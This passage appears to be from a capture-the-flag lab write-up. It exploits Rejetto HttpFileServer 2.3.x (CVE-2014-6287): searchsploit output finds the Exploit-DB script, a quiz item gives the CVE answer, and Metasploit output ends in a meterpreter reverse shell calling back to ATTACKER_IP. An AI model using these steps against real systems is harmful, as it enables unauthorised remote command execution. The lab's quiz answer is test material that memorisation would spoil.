 For this task, we can use the last exploit on the list. Using `searchsploit` we can get the full path to the exploit and see what the corresponding CVE number for this exploit is:
```shell-session
$ searchsploit -p windows/webapps/49125.py
  Exploit: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
      URL: https://www.exploit-db.com/exploits/49125
     Path: /usr/share/exploitdb/exploits/windows/webapps/49125.py
File Type: Python script, Unicode text, UTF-8 text executable

Copied EDB-ID #49125's path to the clipboard

$ head /usr/share/exploitdb/exploits/windows/webapps/49125.py
# Exploit Title: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 28-11-2020
# Remote: Yes
# Exploit Author: Óscar Andreu
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
```

> What is the CVE number to exploit this file server?
>
> Answer: `2014-6287`

## Gaining Access

Using metasploit to gain initial access:
```shell-session
$ sudo msfconsole -q
msf6 > use exploit/windows/http/rejetto_hfs_exec 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS TARGET_IP 
RHOSTS => TARGET_IP
msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080

msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on ATTACKER_IP:4444 
[*] Using URL: http://ATTACKER_IP:8080/jEDk49hV8EF
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /jEDk49hV8EF
[*] Sending stage (175686 bytes) to TARGET_IP
[!] Tried to delete %TEMP%\viAORyR.vbs, unknown result
[*] Meterpreter session 1 opened (ATTACKER_IP:4444 -> TARGET_IP:49244) at 2022-11-25 00:32:52 +0330
[*] Server stopped.

meterpreter > 
```
